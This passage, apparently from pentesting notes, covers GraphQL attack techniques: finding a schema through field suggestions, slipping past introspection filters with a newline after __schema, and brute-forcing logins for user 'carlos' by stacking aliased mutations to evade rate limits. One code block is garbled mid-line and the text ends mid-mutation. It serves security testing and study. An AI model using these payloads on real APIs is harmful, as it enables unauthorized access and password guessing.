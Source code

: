 Suggestions are a feature of the Apollo GraphQL platform in which the server can suggest query amendments in error messages. These are generally used where a query is slightly incorrect but still recognizable (for example, There is no entry for 'productInfo'. Did you mean 'productInformation' instead?).  
This [tool](https://github.com/nikitastupin/clairvoyance) is helpful to obtain GQL schema  
Also use `InQL` Burp extension  

## Bypassing GQL introspection defences
If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the __schema keyword.  
When developers disable introspection, they could use a regex to exclude the __schema keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.  
```
#Introspection query with newline

    {
        "query": "query{__POST of x-www-form-urlencoded.  
```
 # Introspection probe as GET request

    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D

```
Full introspection query via GET request bypassing __schema filter:
```
/api?query={__schema%0a{types{name,fields{name,args{name,description,type{name,kind,ofType{name,kind}}}}}}}
```
## Bypassing rate limiting using aliases 
Ordinarily, GraphQL objects can't contain multiple properties with the same name. Aliases enable you to bypass this restriction by explicitly naming the properties you want the API to return. You can use aliases to return multiple instances of the same type of object in one request.  
```
#Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }

```
```
mutation login {
    login(input:{username:"carlos",password:"123456"}) {
        token
        success
    }
    login2:login(input:{username:"carlos",password:"password"}) {
        token
        success
    }
    login3:login(input:{username:"carlos",password:"12345678"}) {
        token
        success
    }
    login4:login(input:{username:"carlos",password:"qwerty"}) {
        token